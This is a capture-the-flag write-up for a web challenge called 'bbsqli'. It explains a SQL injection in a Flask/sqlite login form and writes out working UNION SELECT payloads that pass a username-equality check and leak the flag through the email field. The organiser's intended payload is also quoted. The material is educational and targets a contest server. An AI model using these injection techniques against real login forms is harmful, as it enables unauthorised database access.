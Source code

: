 # bbsqli \[421 Points] (43 Solves)
```
SO Classic !

Author: xhalyl

http://45.129.40.107:9676/
```
---

**TL;DR** \
An SQL injection during login, however the username from the _**DB**_ is checked
against the username in the _**request**_, thus the SQLi has to return itself as
the **username**. The flag will be inside the **email**.

The final payload looks like this
```
" UNION SELECT users.username, flags.flag, users.password FROM users JOIN flags ON flags.id = 1 WHERE users.username LIKE '%findme%' --
```
Register an account with it as the *name* and then login into it.

## Writeup

Attached is `bbsqli.zip`, [containing](bbsqli):
```
app.py

utils.py
static/
templates/

Dockerfile
requirements.txt
```
Inspecting [app.py](bbsqli/app.py) we see a few interesting lines:
```py
from flask import Flask, render_template, request, redirect, url_for, session
import sqlite3
```
- It's a **flask** webserver
- It uses **sqlite3**
```py
def add_flag(flag):
    conn = get_db_connection()
    cursor = conn.cursor()
    cursor.execute('INSERT INTO flags (flag) VALUES (?)', (flag,))
    conn.commit()
    conn.close()
```
- The **flag** is stored in the `flags` table

Also, from the name - _bb**sqli**_ we can guess that the challenge is an **SQL
injection.** \
Let's search for some potentially vulnerable SQL. \
In the `login` function we find:
```py
cursor.execute(f'SELECT username,email,password FROM users WHERE username ="{username}"')
```
This means we can *easily* inject SQL! Right? Right..?

Well, this is partially true. Although we indeed can run "any" SQL, it follows a
`SELECT`, so we can't update/create data in the database.

*Just return the flag as the username/email, what's the problem?*

The app makes sure that the *username* from the **DB** matches the **requested** *username*
```py
if user and user['username'] == username and user['password'] == hash_password(password):
    session['username'] = user['username']
    session['email'] = user['email']
else:
    return render_template('login.html', error='Invalid username or password')
```

So for example something like
```sql
" UNION SELECT flag AS username, '', '' FROM flags --
```
Wouldn't work, because the **requested** username is \
`" UNION SELECT flag AS username, '', '' FROM flags --` \
while the username from the **DB** would be something like \
`L3AK{a_flag_here}`

So the `if` condition would evaluate `false` and we would get an error page.

Another thing to notice here is that on a successful login, we will see
[templates/dashboard.html](bbsqli/templates/dashboard.html), which contains
```html
<h2>Welcome, {{ user }}!</h2>
<p>Email: {{ email }}</p>
```
Alright, so if we could set the *email* to the flag, and pass the `if` check, we
will get it! Great.

**Now, how do we pass the check?**

We need to have our username *equal* the SQL injection. We can create an account
with the name of the SQLi, but how would we return it? After all, we can't just
put it inside itself
```
" UNION SELECT '" UNION SELECT '', flag AS email, '667ff118ef6d196c96313aeaee7da519' FROM flags --', flag AS email, '667ff118ef6d196c96313aeaee7da519' FROM flags --
```
Because, well, that's just recursive, as now we will have to put it into itself
once again, and like this for *eternity*.

Thankfully, SQL allows us to select a user using a pattern with the `WHERE LIKE` syntax.
For this we will have to take our original idea for an injection
```sql
" UNION SELECT flag AS username, '', '' FROM flags --
```
And modify it. First, we want to select our user. For that let's add a *recognizable* comment

```
" /* findme */ UNION SELECT username, 'FLAG{TODO}', password FROM users WHERE username LIKE '%findme%' --
```
![`/dashboard` Welcoming us with `Email: FLAG{TODO}`](./images/partial_success.png)

Great!

Now we just need to get the flag from the flags table and supply it instead of
the email. For this we can use **JOIN**. Because there's only *one* flag, we can get it with `flags.id` being `1`

```sql
" /* findme */ UNION SELECT users.username, flags.flag AS email, users.password FROM users JOIN flags ON flags.id = 1 WHERE users.username LIKE '%findme%' --
```

Here's the highlighted and formated query that will run on the server
```sql
SELECT username, email, password
    FROM users
    WHERE username ="" /* findme */
UNION
SELECT users.username, flags.flag AS email, users.password
    FROM users
    JOIN flags
        ON flags.id = 1
    WHERE users.username
    LIKE '%findme%' -- "
```

Alright, now we just visit `http://45.129.40.107:9676/register`, create an account with that name, and login!
Also, we probably should change `findme` to something a bit more *unique* to not find a different, existing, user
> [!NOTE]
> The SQLi happens during **login**, we register just so it's possible for us to **SELECT** it as the username during the SQLi.

![`/register` with the SQLi as the username](./images/final_register.png)

Login into the user

![`/login` with the same SQLi as the username](./images/final_login.png)

Success!

![`/dashboard` Welcoming us with `Email: L3ak{__V3RY_B4S1C_SQLI}`](./images/final_dashboard.png)

**Flag:** L3ak{__V3RY_B4S1C_SQLI}

> _**PS:**_ After the CTF I realized that we don't actually need a comment, as the content of `LIKE` already contains a string. So this would also work: `" UNION SELECT users.username, flags.flag, users.password FROM users JOIN flags ON flags.id = 1 WHERE users.username LIKE '%findme%' --`

## Intended solution

Interestingly enough, my solution was pretty close to the intended one, which as posted by *xhalyl* is to
```
"UNION SELECT username,(select flag from flags),"{hashed_password}" from users where username like "%{hashed_password}%";--
```
Where `{hashed_password}` is the md5 of the user you create.
*We know the app uses md5 because of the [utils.py](./bbsqli/utils.py) file.*
It avoids the usage of JOIN and directly selects the flag.
The intended solve script is [attached](./intended_solve.py).
